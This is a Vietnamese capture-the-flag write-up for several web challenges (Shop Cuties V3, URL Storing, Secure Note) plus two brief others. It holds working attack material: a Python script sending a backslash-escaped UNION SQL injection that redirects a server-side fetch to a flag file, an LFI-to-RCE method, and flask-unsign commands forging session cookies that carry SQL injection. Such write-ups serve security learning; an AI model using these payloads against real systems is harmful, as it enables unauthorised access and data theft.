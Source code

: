 # SHOP CUTIES V3

Sau khi đọc qua source code, thì mình thấy bài này sử dụng concat string trong câu query, nên khả năng cao là dính SQli, ở đây tác giả filter 2 kí tự đó `'` và  `"` 

```
 if (preg_match("/'|\"/", $_POST['username']) || preg_match("/'|\"/", $_POST['password']))
                die("Làm ơn đừng hack 😵😵😵");
            $sql = "select username, path from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
            $sth = $conn->query($sql);
            $sth->setFetchMode(PDO::FETCH_ASSOC);
            if ($sth->rowCount() > 0){
                $row = $sth->fetch();
                {
                    $_SESSION['username'] = $row['username'];
                    $_SESSION['api_path'] = $row['path']; 
                    die(header("location: shopping.php"));
                }
            }
            else {
                $message = "Sai tên và mật khẩu rồi 😅";
            }
```

Ở đây mình sử dụng dấu `\` để bypass đoạn check này, `username=blabla\&password=union select 1337,1337 -- -`

Câu truy vấn sẽ thành như sau `select username, path from users where username='blalbal\'&password='union select 1337,1337 -- -`

Lúc này trên server sẽ đọc biến `username=blalbal\'&password=` và câu lệnh union phía sau đã được thi. 

SQLI thành công, nhưng bài này nếu chỉ sqli thì ko đọc được flag.  Vì flag nằm ở path `/flag.php`

Ta nhìn kĩ lại ở dòng này

` $_SESSION['api_path'] = $row['path'];`

Giá trị này sẽ được sử dụng ở file `shopping.php`

`$items = json_decode(file_get_contents(BASE_API_URL . $_SESSION["api_path"] . "/items.json"))->{"msg"};`

Và giá trị `$_SESSION['api_path']` này ta có thể thay đổi dựa vào câu union ở trên. Mục tiêu của ta là đọc được `/flag.php`

Vậy giá trị `$_SESSION['api_path']='@127.0.0.1:32181/flag.php#'` là ta có thể đọc được

Ở đây mình sử dụng 2 function là hex và unhex trong mysql để bypass `"`, `'` vì server không cho sử dụng 2 dấu này

Script để lấy flag 
```
import requests

session = requests.session()
URL = "http://103.245.250.31:32181/login.php"
COOKIES = {"PHPSESSID": "1d6e436162c9045b3d6a42a6dd679c91"}

DATA = {"username": "lol\\", "password": "union select 122,concat(unhex(40),unhex(31),unhex(32),unhex(37),unhex(hex(46)),unhex(30),unhex(hex(46)),unhex(30),unhex(hex(46)),unhex(31),unhex(hex(47)),unhex(66),unhex(hex(108)),unhex(61),unhex(67),unhex(hex(46)),unhex(70),unhex(68),unhex(70),unhex(23))-- -"}
resp = session.post(URL, cookies=COOKIES, data=DATA).text
print(resp)

```


# NO BACKEND 

Bài này mình sài lệnh wget -i URL, để tải hết các file có trên trang web về sau đó sài lệnh grep HCMUS là có flag


# URL Storing 

Bài này dính lỗi LFI ở tham số `page` . Ở đây mình sử dụng php://wrapper để lấy source về. 

Bài này mình sẽ RCE bằng cách chèn một đoạn code php vào `$_POST['url']` nội dung này sẽ được ghi vào file /db/session_id.db. Sau đó gọi đến file này thông qua  lỗi LFI để RCE 


# SECURE NOTE 

Bài này dính lỗi Path traversal , từ đó mình đọc được source code và file /proc/self/environ (chứa secret_key dùng để sign cái session)

```
def waf_filter(s): 
    forbids = ["'", '"', '*', '\\', '/', '#', ';', '--'] 
    for c in forbids: 
        if c in s: s = s.replace(c, '')
    return s
```

![](2022-05-16-15-28-42.png)

Ta sử dụng array là có thể bypass được waf.

Payload bên dưới dùng đề lấy secret_key của admin

`flask-unsign --sign --secret "oHhh_n0000OooooO___YoU_shOUldnt_kn0vv_mY_k3333yyyy" --cookie '{"secret_key":"a7c12766bab05dd16fba6d6d3aee3d23","username":["union select 1,2,3,4,group_concat(secret_key) from users where username=0x61646D696E-- -"]}'`

Có được secret_key thì đọc flag nữa là xong

`flask-unsign --sign --secret "oHhh_n0000OooooO___YoU_shOUldnt_kn0vv_mY_k3333yyyy" --cookie '{"secret_key":"a7c12766bab05dd16fba6d6d3aee3d23","username":"admin"}'`



# BABY DROID 

Bài cho một file apk, tải về sau đó mình sử dụng jadx để decompile file và đọc source code. 

Ở đây có hàm checkFlag(), R(), ... ngồi phân tích bằng tay một lát mình có flag bài này. 

